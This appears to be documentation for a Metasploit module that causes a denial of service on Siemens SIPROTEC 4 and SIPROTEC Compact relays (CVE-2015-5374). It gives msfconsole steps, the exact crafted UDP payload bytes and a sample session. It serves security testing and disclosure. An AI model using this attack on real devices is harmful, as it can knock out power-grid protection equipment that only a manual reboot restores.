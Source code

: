 ## Description

This module sends a specially crafted packet to Port 50000/UDP could cause a denial of service of the affected (Siemens SIPROTEC 4 and SIPROTEC Compact < V4.25) device. A manual reboot is required to return the device to service. 

## Vulnerable Application

Since this exploit hits the embedded software of a SCADA component, there is no vulnerable application for download on the web.
You may check the vendor's website for additional information. (http://w3.siemens.com/smartgrid/global/en/products-systems-solutions/downloads/Pages/SIPROTEC-4-Downloads.aspx)
You may also check the demo video: (https://drive.google.com/open?id=176ZC7nLJyJHGHPB3LbRxvLgArE9kOjPz)

## Verification Steps

- [ ] Start ```msfconsole```
- [ ] ```use auxiliary/dos/scada/siemens_siprotec4```
- [ ] Set ```RHOST <TARGET>```, replacing ```<TARGET>``` with the IP address you wish to attack.
- [ ] ```run```
- [ ] Verify that you see ```[*] Sending DoS packet ...```
- [ ] Verify that you see ```[*] Auxiliary module execution completed```
- [ ] Verify that the exploit sends a specially crafted packet which contains ```11 49 00 00 00 00 00 00 00 00 00 00 00 00 00 00 28 9E```

Document: (https://github.com/can/CVE-2015-5374-DoS-PoC/blob/master/README.md)
Metasploit Module is written based on this exploit: (https://www.exploit-db.com/exploits/44103/)

## Options

  ```set RHOST <TARGET_IP>```, ```set RPORT <TARGET_PORT> (Default 50000)```.

## Scenarios

  ```
msf auxiliary(siemens_siprotec4) > info

       Name: Siemens SIPROTEC 4 and SIPROTEC Compact EN100 Ethernet Module Denial of Service 
     Module: auxiliary/dos/scada/siemens_siprotec4
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  M. Can Kurnaz

Basic options:
  Name   Current Setting  Required  Description
  ----   ---------------  --------  -----------
  RHOST                   yes       The target address
  RPORT  50000            yes       The target port (UDP)

Description:
  This module sends a specially crafted packet to port 50000/UDP 
  causing a denial of service of the affected (Siemens SIPROTEC 4 and 
  SIPROTEC Compact < V4.25) devices. A manual reboot is required to return the 
  device to service. CVE-2015-5374 and a CVSS v2 base score of 7.8 
  have been assigned to this vulnerability.

References:
  https://ics-cert.us-cert.gov/advisories/ICSA-15-202-01
  https://www.exploit-db.com/exploits/44103/

msf auxiliary(siemens_siprotec4) > show options 

Module options (auxiliary/dos/scada/siemens_siprotec4):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  50000            yes       The target port (UDP)

msf auxiliary(siemens_siprotec4) > set rhost 192.168.1.61
rhost => 192.168.1.61
msf auxiliary(siemens_siprotec4) > run

[*] Sending DoS packet ... 
[*] Auxiliary module execution completed
msf auxiliary(siemens_siprotec4) > 
```
